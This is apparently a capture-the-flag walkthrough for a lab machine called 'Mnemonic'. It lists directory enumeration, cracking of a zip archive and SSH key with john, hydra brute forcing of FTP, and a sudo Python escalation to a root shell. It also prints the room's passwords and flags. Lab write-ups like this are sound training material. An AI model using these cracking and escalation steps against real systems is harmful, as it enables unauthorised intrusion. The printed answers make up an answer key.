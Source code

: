 # Mnemonic

## Mnemonic

{% embed url="https://www.youtube.com/watch?v=pBSR3DyobIY" %}

{% hint style="success" %}
No answer needed
{% endhint %}

## Enumerate

### How many open ports?

```bash
nmap -sC -sV -T5 -p1-65535 10.10.109.236
```

![](../.gitbook/assets/image%20%28172%29.png)

{% hint style="success" %}
3
{% endhint %}

### What is the ssh port number? 

![](../.gitbook/assets/image%20%28149%29.png)

{% hint style="success" %}
1337
{% endhint %}

### What is the name of the secret file?

![](../.gitbook/assets/image%20%28171%29.png)

```bash
gobuster dir -u http://10.10.109.236 -w /usr/share/dirb/wordlists/common.txt

gobuster dir -u http://10.10.109.236 -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28155%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/ -w big.txt -x php,txt,html -t 50
```

![](../.gitbook/assets/image%20%28170%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/admin/ -w big.txt -x php,txt,html -t 50

```

![](../.gitbook/assets/image%20%28145%29.png)

```bash
gobuster dir -u http://10.10.109.236/webmasters/backups -w /usr/share/dirb/wordlists/common.txt -x sql,php,txt,css,zip,csv,dat,dbf,log,mdb,sav,tar,xml,cgi
```

![](../.gitbook/assets/image%20%28146%29.png)

![](../.gitbook/assets/image%20%28161%29.png)

{% hint style="success" %}
backups.zip
{% endhint %}

## Credentials

```bash
zip2john backups.zip > ziphash.txt
john ziphash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

![](../.gitbook/assets/image%20%28144%29.png)

```bash
unzip backups.zip
00385007
cat backups/note.txt
```

![](../.gitbook/assets/image%20%28181%29.png)

###  ftp user name? 

```bash
hydra -l ftpuser -P /usr/share/wordlists/rockyou.txt ftp://10.10.109.236 -t 50 
```

{% hint style="success" %}
ftpuser
{% endhint %}

### ftp password? 

![](../.gitbook/assets/image%20%28142%29.png)

{% hint style="success" %}
love4ever
{% endhint %}

### What is the ssh username? 

![](../.gitbook/assets/image%20%28157%29.png)

![](../.gitbook/assets/image%20%28143%29.png)

![](../.gitbook/assets/image%20%28156%29.png)

{% hint style="success" %}
james
{% endhint %}

### What is the ssh password?

```bash
chmod 600 id_rsa
ssh -i id_rsa james@10.10.109.236
```

![](../.gitbook/assets/image%20%28159%29.png)

```bash
python3 /usr/share/john/ssh2john.py id_rsa > john_ssh.txt
john --wordlist=/usr/share/wordlists/rockyou.txt john_ssh.txt

```

![](../.gitbook/assets/image%20%28182%29.png)

{% hint style="success" %}
bluelove
{% endhint %}

### What is the condor password? 

```bash
ssh james@10.10.109.239 -p 1337
```

![](../.gitbook/assets/image%20%28154%29.png)

![](../.gitbook/assets/image%20%28160%29.png)

![](../.gitbook/assets/image%20%28167%29.png)

![](../.gitbook/assets/image%20%28134%29.png)

![](../.gitbook/assets/image%20%28165%29.png)

![](../.gitbook/assets/image%20%28166%29.png)

```bash
git clone https://github.com/MustafaTanguner/Mnemonic
cd Mnemonic/
python3 -m pip install --user colored
python3 -m pip install --user opencv-python
```

![](../.gitbook/assets/image%20%28148%29.png)

```bash
python3 Mnemonic.py
/root/mnemonic/maxresdefault.jpg
2
/root/mnemonic/6450.txt
```

![](../.gitbook/assets/image%20%28137%29.png)

{% hint style="success" %}
pasificbell1981
{% endhint %}

## Hack the machine

### user.txt 

{% hint style="success" %}
THM{a5f82a00e2feee3465249b855be71c01}
{% endhint %}

### root.txt

```bash
ssh -p 1337 condor@10.10.109.239
sudo -l
```

![](../.gitbook/assets/image%20%28178%29.png)

![](../.gitbook/assets/image%20%28140%29.png)

```bash
sudo /usr/bin/python3 /bin/examplecode.py
0
.
/bin/bash
```

![](../.gitbook/assets/image%20%28180%29.png)

![](../.gitbook/assets/image%20%28138%29.png)

{% hint style="success" %}
THM{2a4825f50b0c16636984b448669b0586}
{% endhint %}


